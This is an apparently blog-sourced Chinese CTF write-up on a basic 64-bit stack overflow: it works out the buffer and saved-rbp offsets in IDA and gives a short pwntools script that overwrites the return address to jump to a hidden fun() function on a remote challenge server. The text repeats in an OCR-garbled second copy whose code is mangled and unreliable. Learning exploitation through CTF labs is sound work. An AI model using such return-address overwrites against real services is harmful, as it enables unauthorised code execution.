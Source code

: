 看了这个文章我起码能理解我们栈溢出的目的

在做题之前 我们需要先理解

栈的存储方法

![](https://img-blog.csdnimg.cn/417a0e4b615045a89676adbcf36e7ee2.png)![](https://img-blog.csdnimg.cn/1fd23ffb72384b7db0962eeb2ce4550f.png)

 从上往下看 就能理解入栈

说回这道题目

为什么这道题目是栈溢出

## 1.查看基本信息

checksec

![](https://img-blog.csdnimg.cn/81fc50cf922e41d29bb40af670d6e4ee.png)

 file

![](https://img-blog.csdnimg.cn/0c00a88a72ea476ca9b9e35936a6be64.png)

```kotlin
是kali下的elf文件 相当于windows 的exe可执行文件 有main（）和fun()
```

我们把他放入[ida](https://so.csdn.net/so/search?q=ida&spm=1001.2101.3001.7020)

## 2.ida

主函数的代码

![](https://img-blog.csdnimg.cn/6cd972b3917c48439af8c0265056b3de.png)

 但是我们发现还有一个fun()函数

![](https://img-blog.csdnimg.cn/0df0ed6905c74d1d881911321f4a723c.png)

 找到我们的进门钥匙

我们发现我们是输入 东西 并且作为 s

s 的类型是 char    占15个字节

我们看看我们需要多少才能达到被调用函数的返回地址

就是我们需要多少字节才能 让被调用函数返回

![](https://img-blog.csdnimg.cn/f6471a8bf4be4e20882300801294e9fb.png)

在ida中很明显告诉我们栈底和栈顶是多少了

```cobol
因为是64  rdp是栈底 就是高地址   函数结束地址  rsp是栈顶 就是低地址   函数开始地址 压入栈地址
```

FH = 15字节

![](https://img-blog.csdnimg.cn/b8b4eb0b4acc4f35972fad04be8361a7.png)

从图里能看见 局部变量的压入 就是我们输入的s 占 15字节

但是前面还有一个被调用函数的基地址 就是rbp 我们也要给他构造

但是这个多大呢

```cobol
因为这道题目是 64 所以 rbp是 8个字节如果是 32 就是ebp 占 4个字节
```

```kotlin
所以我们只需要构造15字节的东西填充s 构造8个字节的东西填充基地址 并且把函数返回地址改为fun函数地址即可
```

我们也要明白 [fun函数](https://so.csdn.net/so/search?q=fun%E5%87%BD%E6%95%B0&spm=1001.2101.3001.7020)开始的地址是什么

![](https://img-blog.csdnimg.cn/b120d3a19cde4412b78f0cc30ce3c6bf.png)

 得到函数开始地址

```cobol
0x401186
```

这样就能返回到fun函数开始地址

执行fun函数

所以我们开始写exp

```cobol
from pwn import *p=remote('node4.buuoj.cn',27408)payload=b'A'*15+b'B'*8+p64(0x401186+1) p.sendline(payload)p.interactive()
```

输入二进制15个A和8个B 打包小端序的地址 

其中+1是为了栈平衡 （不明白）

如果脚本结尾忘了加p.interactive(),并且交互完程序并未停止的话，程序会直接被杀掉……然后你就会看到调试时总是莫名其妙的sigkill……

```scss
p64()发送数据时，是发送的字节流，也就是比特流（二进制流）
```

 ![](https://img-blog.csdnimg.cn/15073996129c4ef4b061b7f9578a6217.png)

成功

![](https://img-blog.csdnimg.cn/2d76f8c4948849178fd6fbdd371f5861.png)

 cat flag

![](https://img-blog.csdnimg.cn/33b9569233aa49fb822bb864e651959e.png)看了这个文章我起码能理解我们栈溢出的目的

在做题之前我们需要先理解

栈的存储方法



 从上往下看就能理解入栈

说回这道题目

为什么这道题目是栈溢出

1. 查看基本信息
Checksec



 File



是 kali 下的 elf 文件相当于 windows 的 exe
可执行文件
 
有 main（）和 fun()
我们把他放入 ida

2. Ida
主函数的代码



 但是我们发现还有一个 fun ()函数



 找到我们的进门钥匙

我们发现我们是输入东西并且作为 s

S 的类型是 char    占 15 个字节

我们看看我们需要多少才能达到被调用函数的返回地址

就是我们需要多少字节才能让被调用函数返回



在 ida 中很明显告诉我们栈底和栈顶是多少了

因为是 64 
 
Rdp 是栈底就是高地址函数结束地址
 
 
Rsp 是栈顶就是低地址函数开始地址压入栈地址
FH = 15 字节



从图里能看见局部变量的压入就是我们输入的 s 占 15 字节

但是前面还有一个被调用函数的基地址就是 rbp 我们也要给他构造

但是这个多大呢

因为这道题目是 64 所以 rbp 是 8 个字节
如果是 32 就是 ebp 占 4 个字节
所以我们只需要构造 15 字节的东西填充 s 构造 8 个字节的东西填充基地址并且把函数返回地址改为 fun 函数地址即可
我们也要明白 fun 函数开始的地址是什么



 得到函数开始地址

0 x 401186
这样就能返回到 fun 函数开始地址

执行 fun 函数

所以我们开始写 exp

From pwn import *
P=remote ('node 4. Buuoj. Cn', 27408)
Payload=b'A'*15+b'B'*8+p 64 (0 x 401186+1) 
p.sendline (payload)
p.interactive ()
输入二进制 15 个 A 和 8 个 B 打包小端序的地址 

其中+1 是为了栈平衡 （不明白）

如果脚本结尾忘了加p.interactive (), 并且交互完程序并未停止的话，程序会直接被杀掉……然后你就会看到调试时总是莫名其妙的 sigkill……

P 64 ()发送数据时，是发送的字节流，也就是比特流（二进制流）
 

成功



 Cat flag

